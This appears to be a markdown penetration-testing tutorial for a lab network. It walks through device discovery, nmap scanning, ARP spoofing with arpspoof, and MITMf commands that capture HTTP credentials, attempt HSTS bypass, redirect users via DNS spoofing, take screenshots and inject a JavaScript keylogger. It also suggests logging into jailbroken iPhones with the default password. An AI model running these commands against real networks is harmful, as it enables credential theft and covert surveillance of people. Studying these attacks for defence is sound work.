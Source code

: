 # Information Gathering

## Content
1. [Discovering Connected devices](#discovering-connected-devices)
2. [Network Mapping (NMAP/ ZENMAP)](#network-mapping)
3. [Man In The Middle](#man-in-the-middle)
	1. [ARP Poisoning](#arp-poisoning)
	2. [ARP Spoofing](#arp-spoofing)
		1. [Installing MITMF](#installing-mitmf)
		2. [Bypassing HTTPS](#bypassing-https)
	3. [Keyloggers, Screenshots, etc](#other-use-cases)


### Discovering Connected devices

In this we would search for the devices that are connected to the same network. This would help in attacking those devices. So this would be more fruitful, once access has been gained to the desired network.

```shell
root@kali:~/Desktop/information-gathering# netdiscover -r 10.0.2.1/24
 Currently scanning: Finished!   |   Screen View: Unique Hosts                                                                                    
                                                                                                                                                  
 4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240                                                                                  
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 10.0.2.1        52:54:00:12:35:00      1      60  Unknown vendor                                                                                 
 10.0.2.2        52:54:00:12:35:00      1      60  Unknown vendor                                                                                 
 10.0.2.3        08:00:27:85:e0:96      1      60  PCS Systemtechnik GmbH                                                                         
 10.0.2.4        08:00:27:04:18:04      1      60  PCS Systemtechnik GmbH                                                                         
```
where `-r 10.0.2.1/24` signifies the range of IPs that I'm looking for in the subnet. 

> Please note that you can search for devices in the subnet that you're present.


### Network Mapping
Slower than `netdiscover` but gives a lot more information - like OS, applications running, open ports, connected clients etc. 

To perform network mapping you can run `zenmap` which is a graphical user interface for nmap. This allows for much more detailed summary of the devices connected to the network. Nmap is very vast subject in itself. You can refer [this PDF](http://wiki.informationsecurity.club/lib/exe/fetch.php/книги:nmap_network_scanning.pdf) for more information.

For example, if I do a `Quick Scan Plus` i'll be able to see the ports that are opne on the devices that are connectedo to the same network. Then For example, you see that iphone is connected to the network, and the `SSH` port is open that would translate to the iphone being jailbroken. In such a situation, you can SSH into the iphone, with `ssh root@ip.address` with the password being `alpine`. Also, if you see that there are several PCs or computers with SSH port open, you can try to ssh into them, and if you know the password or if the password is not set, then voila. You're in!

### Man In The Middle

In cryptography and computer security, a man-in-the-middle attack (MITM) is an attack where the attacker secretly relays and possibly alters the communication between two parties who believe they are directly communicating with each other. One example of a MITM is active eavesdropping, in which the attacker makes independent connections with the victims and relays messages between them to make them believe they are talking directly to each other over a private connection, when in fact the entire conversation is controlled by the attacker

#### Arp poisoning

Address Resolution Protocol (ARP). Maps the IP address to the MAC address. So in this case, the `Malcious Machine` would simply exploit the ARP protocol to tell the router that "I am the `USER A`" and to USER A, it would tell that "I am the `ROUTER`". 

![ARP Poisoning Example](./Resources/01-arp-poisoning-example.png)

Hence, the requests from the `USER A` would be passed to the `Malcious Machine` which would forward the requests to the `Router`. Any responses from the `Router` would be sent to the `Malcious Machine`, which would subsequently send these responses to `User A`.

* ARP is not secure because
	* clients `accept responses` even when no requests are sent, 
	* moreover clients trust without any form of `verification`

#### Arp Spoofing

So to perform this we would execute the following two commands.

```shell
root@kali:~/Desktop/information-gathering# arpspoof -i eth0 -t 10.0.2.4 10.0.2.1
```
This command would tell the target machine that I'm the router.

```shell
root@kali:~/Desktop/information-gathering# arpspoof -i eth0 -t 10.0.2.a 10.0.2.4
```
This command would tell the router that I'm the target machine.

If you have access to the target machine, while experimenting, you can run the `arp -a` command before and after execution of the previous command to see the changes in the mac addresses yourself.

![Before and After](./Resources/02-Before-after.png)

##### Installing MITMF

**Installation** MITMf relies on a **LOT** of external libraries therefore it is highly recommended you use [virtualenvs](http://docs.python-guide.org/en/latest/dev/virtualenvs/) to install the framework, this avoids permission issues and conflicts with your system site packages (especially on Kali Linux).

Before starting the installation process:

*   On Arch Linux:

    `pacman -S python2-setuptools libnetfilter_queue libpcap libjpeg-turbo capstone`
    

*   On Debian and derivatives (e.g Ubuntu, Kali Linux etc...)

    ```
    apt-get install python-dev python-setuptools libpcap0.8-dev libnetfilter-queue-dev libssl-dev libjpeg-dev libxml2-dev libxslt1-dev libcapstone3 libcapstone-dev libffi-dev file
    ```
   

*   Install virtualenvwrapper:

    `pip install virtualenvwrapper`
    

*   Edit your `.bashrc` or `.zshrc` file to source the virtualenvwrapper.sh script: (This is for Kali Linux)

    `source /usr/local/bin/virtualenvwrapper.sh`
    

**The location of this script may vary depending on your Linux distro**

You can find yours by running `find / -name virtualenvwrapper.sh`

*   Restart your terminal or run:

    `source /usr/local/bin/virtualenvwrapper.sh`
    

*   Create your virtualenv:

    `mkvirtualenv MITMf -p /usr/bin/python2.7`
    

*   Clone the MITMf repository:

    `git clone https://github.com/byt3bl33d3r/MITMf`
    

*   cd into the directory, initialize and clone the repos submodules:

    `cd MITMf && git submodule init && git submodule update --recursive`
    

*   Install the dependencies:

    `pip install -r requirements.txt`
    

*   You're ready to rock!

    `python mitmf.py --help`
    
    Then you can start the capturing of data using
    
    ```shell
    root@kali:~/MITMf# python mitmf.py --arp --spoof --gateway 10.0.2.1 --target 10.0.2.4 -i eth0
    ```

![Running MITMF](./Resources/03-Running-mitmf.png)

And while visiting `HTTP` sites you can capture the content of the user name and password like this. 

![Capturing Username and Password](./Resources/04-username-password.png)

> Note that this method would work only with `HTTP` sites. In the next section we will learn about how to bypass `HTTPS` traffic

##### Bypassing HTTPS

```shell
    root@kali:~/MITMf# python mitmf.py --arp --spoof --gateway 10.0.2.1 --target 10.0.2.4 -i eth0 --hsts
    ```
The problem however is that most websites now a days uses the [HTTP Strict Transport Security](http://en.wikipedia.org/wiki/HTTP_Strict_Transport_Security#Applicability) which prevents the bypassing of the https security which the MITMF framework tries to do by downgrading the `HTTPS` connection to `HTTP` However, there is a workaround that involves the DNS spoofing attack. In this method, you would redirect the user to a website that looks like the website that the user often goes to to enter their username and password. 

DNS spoofing can be enabled easily by editing the `mitmf.conf` file to redirect the traffic.

Hence, when trying to prevent this type of attack make sure that you have `HSTS` enabled for your website and also make the user aware of such attacks, especially in offices and work places.

#### Other Use Cases

* Taking screenshots 
```shell
    root@kali:~/MITMf# python mitmf.py --arp --spoof --gateway 10.0.2.1 --target 10.0.2.4 -i eth0 --screen
    ```
*  Injecting Key Logger
```shell
    root@kali:~/MITMf# python mitmf.py --arp --spoof --gateway 10.0.2.1 --target 10.0.2.4 -i eth0 --jskeylogger
    ```
    
    
There are several more, you can run `python mitmf.py` to get the help